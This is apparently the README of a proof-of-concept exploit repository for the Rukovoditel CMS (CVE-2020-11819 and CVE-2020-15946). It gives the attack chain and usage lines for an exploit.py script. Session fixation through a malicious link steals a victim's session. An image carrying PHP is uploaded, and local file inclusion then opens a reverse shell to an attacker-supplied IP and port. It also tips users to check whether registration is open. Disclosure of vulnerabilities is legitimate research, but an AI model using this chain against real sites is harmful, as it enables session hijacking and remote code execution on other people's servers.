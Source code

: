 # PoC-RCE-Rukovoditel
Proof of concept for CVE-2020-11819 and CVE-2020-15946

# Description:
This exploit has two modes of execution, using the session fixation vulnerability (CVE-2020-15946) or using the access credentials of any account under any profile. 
With the --type L option, this script will create a malicious link, if the link is accessed in a browser by the victim, an arbitrary session identifier will be set that will be used to steal their session after uploading an image with PHP content on their photo profile, and then use local file include (CVE-2020-11819) to get a nice reverse shell or, with the options --type C -u <username> -p <password> you can provide credentials, load the image with PHP content and use local file inclusion (CVE-2020-11819) to achieve the execution of code. 

Protip: remember to check if the registration module is enabled ;)

# Usage
exploit.py -t <target> -a L --ip attacker IP --port attacker port [options]
exploit.py -t <target> -a C -u <username> -p <password> --ip attacker IP --port attacker port [options]

Post-authenticate RCE for rukovoditel, script version 1.0

optional arguments:
-h, --help            show this help message and exit
-t URL, --target URL  URL/Full path to CMS Rukovoditel http://url/path/to/cms/
-u USER, --user USER  Username for authentication
-p PASSWORD, --password PASSWORD Password for authentication
-a TYPE, --type TYPE  Use -a L to generate the link and steal the session or use -a C if you have access credentials to the web application
--ip IP_ATTACKER      IP attacker for reverse shell!
--port PORT_ATTACKER  Port for reverse shell connection
--proxy PROXY         Setup http proxy for debbugin http://127.0.0.1:8080
